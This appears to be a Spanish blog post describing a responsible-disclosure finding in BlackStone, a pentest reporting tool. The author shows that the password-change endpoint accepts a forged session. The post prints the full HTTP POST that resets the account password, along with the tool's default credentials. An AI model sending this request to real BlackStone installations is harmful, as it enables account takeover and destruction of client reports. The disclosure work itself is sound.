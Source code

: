 ```yaml
---
title: Bugbounty BlackStone
date: 2025-04-1 00:00:00 +0200
categories: [ciberseguridad, software]
tags: [bugbounty, blackstone, explotacionweb]     
image:
    path: https://user-images.githubusercontent.com/55983491/182504746-26c636f4-fe4f-410d-9898-e51f4ae35e6d.png
    alt: Blackstone
---
```


Antes de nada decir que fue mi propia curiosidad que me llevó a probar esta herramienta
[https://github.com/micro-joan/BlackStone](https://github.com/micro-joan/BlackStone), mis felicitaciones al autor Micro Joan, 
me parece que tiene una buena orientación a lo que el objetivo de esta herramienta. Según la propia información sería lo siguiente:
>El proyecto BlackStone o “BlackStone Project” es una herramienta creada con el fin de automatizar el trabajo de redacción y envío de informes sobre auditorías de hacking ético o pentesting.

Así que me dije, manos a la obra vamos a instalarlo.
Como el proyecto no parece y de hecho no fue difícil instalarlo a mano con Mariadb + php-fpm8.2 + nginx.
Dejo aquí la config por si alguien lo quiere probar, yo lo hice en Debian:

```
server {
	listen 8084 default_server;
	listen [::]:8084 default_server;

	root /var/www/BlackStone/;
	index index.html index.htm index.nginx-debian.html;
	server_name _;
	location / {
		try_files  / =404;
	}

	location ~ \.php$ {
		include snippets/fastcgi-php.conf;
		fastcgi_pass unix:/run/php/php8.2-fpm.sock;
	}

}
```

Bueno hay que crear la base de datos y ponerle una password al usuario para dicha base datos y
luego importamos la base de datos, damos por sentado que cambiarás la password no uses 'blackstone' (solo es para el ejemplo): 

```
MariaDB [(none)]> 
create database blackstone;
CREATE USER 'blackstone'@'localhost' IDENTIFIED BY 'blackstone';
GRANT PRIVILEGE ON blackstone.* TO 'blackstone'@'localhost';
MariaDB [(none)]> source /home/pablo/Descargas/blackstone.sql
```
Este usuario y password son los que vas a agregar a conexion.php
```
<?php
$host = "localhost";
$user = "blackstone";
$pass = "blackstone";
$basedatos = "blackstone";
$conexion = mysqli_connect($host, $user, $pass, $basedatos)
or die("Error al conectar a la base de datos");
// UTF-8 conjunto de caracteres por defecto para conexión MySQL
mysqli_query ($conexion, "SET NAMES 'utf8'");
?>
```
Vale ahora ya lo tengo corriendo, la password por defecto de la web es blackstone:blackstone
Abro la web, me logeo con las credenciales por defecto, y repaso los menús. 
Veo que tiene opciones para crear reportes, manejo de vulnerabilidades, una calculadora NIST , gestión de clientes. Estupendo
esta herramienta promete.

![blackstone.png](../assets/img/postsimgs/blackstone.png)
Aquí es donde se tensa, llego a parte de settings y veo que hay una opción para cambiar las password __Change password__.
Llamó mi atención que el formulario solo tiene un campo. Con la de contraseñas que he cambiado y hacía tiempo que no me encontraba 
un cambio de contraseña así, tan simple, las alarmas saltaron en mi cabeza. 
Me hizo pensar en que podía intentar jugar y ver si el cambio de password era susceptible de realizarse por la falta de lo que
yo entendía un control fundamental. Que el cambio de contraseña requiera algún control de autenticación, sea a través del cookies de sesión
u otros métodos. 

Por mi parte con Zap Proxy [Hacktools#web-pentest-frameworks](../hacktools#web-pentest-frameworks) capturé el POST que se hace al 
enviar la password y repliqué el mismo para ver que efectivamente podía cambiar la password incluso inventándome la cookie 

Ahora modifico el POST para alterar la password a **hackedpassword** y me invento una cookie de sesión __Cookie: PHPSESSID=dsfjsdlfsidfjjsdfsdfsd__
y se lo traga, se cambia la password y con ella puedo logearme. Para asegurarme de que no sufría una alucinación, mejor dicho un falso positivo 
y de que no me equivoco, cambio la clave sin apuntala y escribo una secuencia aleatoria. Deslogeo y vuelvo a intentar logearme pero no se la 
contraseña, así que no puedo. Ahora lanzo el POST desde ZAP y compruebo que no me equivoco,
se podría cambiar la clave sin nisiquiera tener que tener session de PHP.


```
POST /editar_perfil.php HTTP/1.1
Host: 192.168.2.125:8084
Content-Length: 243
Cache-Control: max-age=0
Accept-Language: es-ES,es;q=0.9
Origin: http://192.168.2.125:8084
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZANqX3u0BYVWXBym
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.2.125:8084/editar_perfil.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=dsfjsdlfsidfjjsdfsdfsd
Connection: keep-alive

------WebKitFormBoundaryZANqX3u0BYVWXBym
Content-Disposition: form-data; name="pass"

hackedpassword
------WebKitFormBoundaryZANqX3u0BYVWXBym
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryZANqX3u0BYVWXBym--
```

Conozco algún otro generador de informes como Dradis, pero me gusta mucho este y me gustaría usarlo en el futuro así que he optado por la opción de abrir un issue en proyecto de github. Estoy seguro que Micro Joan entusiasta de la programación y seguridad ofensiva, en pocas líneas es capaz de resolver esta vulnerabilidad, o al menos podría rebatirme que estoy equivocado, pero si no lo estoy, creo de alta criticidad pues un actor malicioso podría cambiar la contraseña de BlackStone y borrar todos los informes de la base de datos.

Otra cosa que no me convence en que las credencias van en el fichero conexion.php, supongo que es mi manía de no mezclar código y credenciales
meter esos datos en un archivo aparte creo que sería más acertado, si bien no son accesibles por medios comunes. 
Bueno he abierto el issue y creo que con esto cumplo con mi parte, no creo que este bugbounty tenga ninguna recompensa más allá de que el 
la vulnerabilidad sea resuelta y poder usar esta aplicación en el futuro, eso sí, con más seguridad. 
[https://github.com/micro-joan/BlackStone/issues/16](https://github.com/micro-joan/BlackStone/issues/16)

He contacado con Micro Joan por Linkedin y le he comentado la vulnerabilidad, aunque sea ara evitar un ataque de los de "por encima del hombro". 
Me ha contestado y me ha dicho que cuando tenga un hueco se pondrá con ello. 
Recordemos que muchas herramientas son gratuitas y creadas de forma altruista por gente que no sabemos si disponen del tiempo para regalarnos al resto su código. 

Voy a esperar unos días hasta ver si se solucionan este problemilla y espero que BlackStone tenga un futuro en el mundo de las herramientas de 
ciberseguridad.

**El logo y la imagen del software BlackStone han sido obtenidos del proyecto original https://github.com/micro-joan/BlackStone y su autor Micro Joan.**




